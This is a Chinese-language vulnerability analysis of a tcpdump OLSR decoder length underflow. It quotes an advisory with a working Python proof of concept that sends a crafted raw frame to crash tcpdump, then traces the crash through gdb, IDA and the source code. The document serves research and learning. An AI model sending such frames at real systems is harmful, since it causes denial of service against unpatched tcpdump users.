

Author：wnagzihxa1n
Mail：tudouboom@163.com
从这个CVE开始，接连着三个都是同一类型的，从命名来看，应该是漏洞发现者用工具fuzzing出来的Crash，这三个CVE分别是
接下来这三个漏洞都会分别进行分析
作者给出的Poc以及简单的分析
我省略一些不必要的
The application decoder for the OLSR protocol fails to perform external
input validation and performs insufficient checking on length
computations leading to an unsafe decrement and underflow in the function
olsr_print (const u_char *pptr, u_int length, int is_ipv6)
In this function msg_len is extracted from the input without sufficient
checks and subtracted sizeof(struct olsr_msg4) which leads to an
underflow of msg_tlen which is used to call olsr_print_neighbor() which
will crash. In case DNS reverse lookup is enabled, this will also lead
to a large amount of invalid DNS reverse lookups.
To reproduce start tcpdump on a network interface
sudo tcpdump -i lo -s 0 -n -v
(running the program with sudo might hide the segfault message on
certain environments, see dmesg for details)
and use the following python program to generate a frame on the network
(might also need sudo):
#!/usr/bin/env python
from socket import socket, AF_PACKET, SOCK_RAW
s = socket(AF_PACKET, SOCK_RAW)
s.bind(("lo", 0))
olsr_frame =
"\x00\x1b\xc6\x51\x35\x97\x00\x24\x8c\x7a\xff\x6f\x08\x00\x45\x15\x00\x3d\xf3\x7f\x40\x00\x4d\x11\x30\xc6\x0a\x01\x01\x68\x0a\x02\x02\x02\x02\xba\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x20\x00\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x20\x01\x00\x00\x00"
s.send(olsr_frame)
4. Affected versions
Affected versions are 3.9.6 through 4.6.2
5. Fix
The problem is fixed in the upcoming version tcpdump 4.7.0
在详细模式下会触发该拒绝服务，所以我们来复现一下
该漏洞影响3.9.6 - 4.6.2，我们这里使用4.5.1，下载及编译参考
使用作者提供的启动方式启动，不过网卡接口要根据自己的机子做适当修改
wnagzihxain@toT0C:~$ sudo tcpdump -i ens33 -s 0 -n -v
修改Poc的网卡接口为自己测试系统的网卡接口，直接在同一个系统中运行
wnagzihxain@toT0C:~$ cat Poc.py
from socket import socket, AF_PACKET, SOCK_RAW
s = socket(AF_PACKET, SOCK_RAW)
s.bind(("ens33", 0))
olsr_frame = "\x00\x1b\xc6\x51\x35\x97\x00\x24\x8c\x7a\xff\x6f\x08\x00\x45\x15\x00\x3d\xf3\x7f\x40\x00\x4d\x11\x30\xc6\x0a\x01\x01\x68\x0a\x02\x02\x02\x02\xba\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x20\x00\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x20\x01\x00\x00\x00"
s.send(olsr_frame)
跑起来，会看到很多输出，然后崩溃

到这里测试了Poc有效，接下来我们使用gdb调试
wnagzihxain@toT0C:~$ sudo gdb tcpdump
设置参数
gdb-peda$ set args -i ens33 -s 0 -n -v
跑起来，一大堆输出后断下来
[----------------------------------registers-----------------------------------]
EAX: 0xb7fbe000
EBX: 0x8114881 --> 0x73250020 (' ')
ECX: 0x7ffffff7
EDX: 0xb7dcf870 --> 0x0
ESI: 0x2
EDI: 0x202
EBP: 0xbfffdf38 --> 0xbfffdf68 --> 0xbfffe098 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 (--> ...)
ESP: 0xbfffdf10 --> 0x2
EIP: 0x804a5bb (<getname+28>: mov eax,DWORD PTR [eax])
EFLAGS: 0x210246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x804a5b3 <getname+20>: mov DWORD PTR [ebp-0xc],eax
0x804a5b6 <getname+23>: xor eax,eax
0x804a5b8 <getname+25>: mov eax,DWORD PTR [ebp-0x1c]
=> 0x804a5bb <getname+28>: mov eax,DWORD PTR [eax]
0x804a5bd <getname+30>: mov DWORD PTR [ebp-0x14],eax
0x804a5c0 <getname+33>: mov eax,DWORD PTR [ebp-0x14]
0x804a5c3 <getname+36>: and eax,0xfff
0x804a5c8 <getname+41>: mov edx,eax
[------------------------------------stack-------------------------------------]
0000| 0xbfffdf10 --> 0x2
0004| 0xbfffdf14 --> 0x202
0008| 0xbfffdf18 --> 0xbfffdf68 --> 0xbfffe098 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 (--> ...)
0012| 0xbfffdf1c --> 0xb7fbe000
0016| 0xbfffdf20 --> 0xb7dced60 --> 0xfbad2a84
0020| 0xbfffdf24 --> 0x8114883 ("%s%s")
0024| 0xbfffdf28 --> 0xbfffdf4c --> 0xb7c65696 (<__printf+38>: add esp,0x1c)
0028| 0xbfffdf2c --> 0xfd74a100
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0804a5bb in getname ()
断下来后，我们观察到下断的指令是读取eax寄存器指向地址的值
=> 0x804a5bb <getname+28>: mov eax,DWORD PTR [eax]
尝试读取，发现不可读，那么问题就清楚了，应该是读取了不可读的内存导致的崩溃
gdb-peda$ x/x $eax
0xb7fbe000: Cannot access memory at address 0xb7fbe000
回溯函调用栈
gdb-peda$ bt
#0 0x0804a5bb in getname ()
#1 0x0808cbd2 in olsr_print_neighbor ()
#2 0x0808d486 in olsr_print ()
#3 0x080bcad7 in udp_print ()
#4 0x08073540 in ip_print_demux ()
#5 0x08073e59 in ip_print ()
#6 0x0806abd9 in ethertype_print ()
#7 0x0806a8b2 in ether_print ()
#8 0x0806a951 in ether_if_print ()
#9 0x080c2c7f in print_packet ()
#10 0x080ef63e in pcap_handle_packet_mmap (handle=handle@entry=0x8235058,
callback=callback@entry=0x80c2c13 <print_packet>,
user=user@entry=0xbfffe46c " :#\b+\251\006\b\001", frame=0xb7a16030 "", tp_len=0x4b,
tp_mac=0x56, tp_snaplen=0x4b, tp_sec=0x5a4c4e2b, tp_usec=0xb0fd7,
tp_vlan_tci_valid=0x0, tp_vlan_tci=0x0) at ./pcap-linux.c:4264
#11 0x080f3884 in pcap_read_linux_mmap_v3 (handle=0x8235058, max_packets=0xffffffff,
callback=0x80c2c13 <print_packet>, user=0xbfffe46c " :#\b+\251\006\b\001")
at ./pcap-linux.c:4429
#12 0x080d9da9 in pcap_loop (p=0x8235058, cnt=<optimized out>,
callback=0x80c2c13 <print_packet>, user=0xbfffe46c " :#\b+\251\006\b\001")
at ./pcap.c:856
#13 0x080c2229 in main ()
#14 0xb7c34637 in __libc_start_main (main=0x80c083a <main>, argc=0x7, argv=0xbffff654,
init=0x80f7300 <__libc_csu_init>, fini=0x80f7360 <__libc_csu_fini>,
rtld_fini=0xb7fea8a0 <_dl_fini>, stack_end=0xbffff64c) at ../csu/libc-start.c:291
#15 0x0804a3d3 in _start ()
使用IDA分析，函数是getname()，我们直接搜索定位，其实我们读取的指针就是传进去的参数
.text:0804A5A7 mov eax, [ebp+arg_0]
.text:0804A5AA mov [ebp+var_1C], eax
.text:0804A5AD mov eax, large gs:14h
.text:0804A5B3 mov [ebp+var_C], eax
.text:0804A5B6 xor eax, eax
.text:0804A5B8 mov eax, [ebp+var_1C]
.text:0804A5BB mov eax, [eax] ; 漏洞触发点：读取不可读内存
先将参数保存在栈中，然后是栈溢出保护，接着清空了eax寄存器的值，然后把参数从栈中取出，这个值指向的内存不可读，造成崩溃，我们找到其交叉引用
我们在上述调试中直接的引用是olsr_print_neighbor()，所以直接找到它，它只是将自身的一个指针传给了漏洞函数，关键就是这个指针
.text:0808CBCA push [ebp+arg_0]
.text:0808CBCD call getname
继续往回找，在olsr_print()中，它虽然有两个参数，但是只有传入的第一个指针是有用的，就是这个指针最后导致的不可读
.text:0808D475 push [ebp+var_E8]
.text:0808D47B push [ebp+var_DC]
.text:0808D481 call olsr_print_ne
然后这个指针来源就很复杂了，各种计算，但是可以看到漏洞的触发大概就是从这个函数开始的
我们查看其源码，源码很长，不全部贴出来，有两处进行调用，但是第一个都是数据的起始地址，猜测这是根据叠加偏移等计算出的msg_data指针
olsr_print_neighbor(msg_data, hello_len);
olsr_print_neighbor(msg_data, msg_tlen);
该文件最开始有一个结构示意图，一个头部，后面跟着n个Message
/*
* RFC 3626 common header
*
* 0 1 2 3
* 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* | Packet Length | Packet Sequence Number |
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* | Message Type | Vtime | Message Size |
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* | Originator Address |
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* | Time To Live | Hop Count | Message Sequence Number |
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* | |
* : MESSAGE :
* | |
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* | Message Type | Vtime | Message Size |
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* | Originator Address |
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* | Time To Live | Hop Count | Message Sequence Number |
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* | |
* : MESSAGE :
* | |
* +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
* : :
*/
我们结合代码来分析，只截取关键的赋值代码
tptr = pptr; // tptr为消息指针
tptr += sizeof(struct olsr_common); // 跳过了第一个4字节
第一个4直接数据结构体，对应着上述结构的前两个字段
struct olsr_common {
u_int8_t packet_len[2];
u_int8_t packet_seq[2];
};
进入一个循环，先定义一个结构体，这是因为传进去的数据有ipv4和ipv6的区别
union
{
struct olsr_msg4 *v4;
struct olsr_msg6 *v6;
} msgptr;
此处我们以olsr_msg4为例，通过指针类型转换获取到对象
msgptr.v4 = (struct olsr_msg4 *) tptr;
msg_type = msgptr.v4->msg_type;
msg_len = EXTRACT_16BITS(msgptr.v4->msg_len);
该结构体对应的成员
struct olsr_msg4 {
u_int8_t msg_type;
u_int8_t vtime;
u_int8_t msg_len[2];
u_int8_t originator[4];
u_int8_t ttl;
u_int8_t hopcount;
u_int8_t msg_seq[2];
};
注意到第三个字段msg_len，在进行结构体对应字段的获取后，直接减去头部的长度，作为Message的长度
msg_tlen = msg_len - sizeof(struct olsr_msg4);
msg_data = tptr + sizeof(struct olsr_msg4);
接着传入
olsr_print_neighbor(msg_data, hello_len);
可以看到并没有判断指针指向的内存是否可读，直接进行循环读取操作，最终触发在ipaddr_string(msg_data)函数里
/*
* print a neighbor list.
*/
static void
olsr_print_neighbor (const u_char *msg_data, u_int hello_len)
{
int neighbor;
printf("\n\t neighbor\n\t\t");
neighbor = 1;
while (hello_len >= sizeof(struct in_addr)) {
/* print 4 neighbors per line */
printf("%s%s", ipaddr_string(msg_data),
neighbor % 4 == 0 ? "\n\t\t" : " ");
msg_data += sizeof(struct in_addr);
hello_len -= sizeof(struct in_addr);
}
}
我们进行调试，来确定作者的Poc构造，先下个断点
gdb-peda$ b olsr_print
跑起来，这就是传入的pptr指向的数据（不是全部）
gdb-peda$ x/30x $eax
0xb7a56348: 0x02020202 0x02002002 0x02020202 0x02020202
0xb7a56358: 0x02020202 0x02020202 0x02020202 0x00000120
0xb7a56368: 0x00000000 0x00000000 0x00000110 0x5a4cb3b7
0xb7a56378: 0x09177942 0x000000b7 0x000000b7 0x00000001
0xb7a56388: 0x00640056 0x00000000 0x00000000 0x00000000
0xb7a56398: 0x00000000 0x00000000 0x00080011 0x00000002
0xb7a563a8: 0x06040001 0x07290c00 0x0000e015 0x00000000
0xb7a563b8: 0x00000000 0x00000000
我们进行对应
Packet Length : \x02\x02
Packet Sequence Number : \x02\x02
Message Type : \x02
Vtime : \x20
Message Size : \x00\x02
Originator Address : \x02\x02\x02\x02
Time To Live : \x02
Hop Count : \x02
Message Sequence Number : \x02\x02
MESSAGE : \x02\x02\x02\x02
\x02\x02\x02\x02
\x02\x02\x20\x02
\x01\x00\x00\x00
注意作者设置的msg_type字段为\x02，这个在代码中的定义是OLSR_TC_MSG
#define OLSR_HELLO_MSG 1 /* rfc3626 */
#define OLSR_TC_MSG 2 /* rfc3626 */
#define OLSR_MID_MSG 3 /* rfc3626 */
#define OLSR_HNA_MSG 4 /* rfc3626 */
#define OLSR_POWERINFO_MSG 128
#define OLSR_NAMESERVICE_MSG 130
#define OLSR_HELLO_LQ_MSG 201 /* LQ extensions olsr.org */
#define OLSR_TC_LQ_MSG 202 /* LQ extensions olsr.org */
后面通过switch/case来控制，这里就会进行触发
if (msg_type == OLSR_TC_MSG) {
olsr_print_neighbor(msg_data, msg_tlen);
} else {
上面就是完整的触发过程